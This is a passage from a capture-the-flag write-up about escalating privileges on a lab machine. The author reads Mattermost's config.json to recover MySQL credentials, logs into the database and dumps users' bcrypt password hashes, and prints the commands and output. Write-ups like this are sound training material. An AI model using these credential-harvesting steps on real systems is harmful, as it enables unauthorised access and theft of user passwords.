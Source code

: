 ```none
```

And we have the user flag!

## Privesc: `maildeliverer` to `root`

Started running linpeas on the target and having a manual poke around. Based on the hint from Mattermost - I was primarily looking for some hashes to try crack that might use variants of the `PleaseSubscribe!` password. Unfortunately, linpeas provided no insight into any creds or hashed passwords, so I started doing some more manual enumeration and research. After a long time looking and lots of open browser tabs found out that Mattermost stores database creds in its configuration data.

```none
cat /opt/mattermost/config/config.json
```

In this file, we can find a section called `SqlSettings` which has the MySQL database credentials.

```none
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
},
```

From here, we can log into the MySQL service and have a look around.

```none
mysql -u mmuser -p
```

Then run some commands to see what databases and tables we have to work with.

```none
show databases;
use mattermost;
show tables;
describe Users;
```

The `Users` table had all the user-related data, included hashed passwords.

```none
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| delivery                         | $2a$10$.J/Zwj0KsTqtE.aAVsRSA.tUmKwnoMNEXw0dFBUAZM.fzf5LXNzZK |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.001 sec)
```
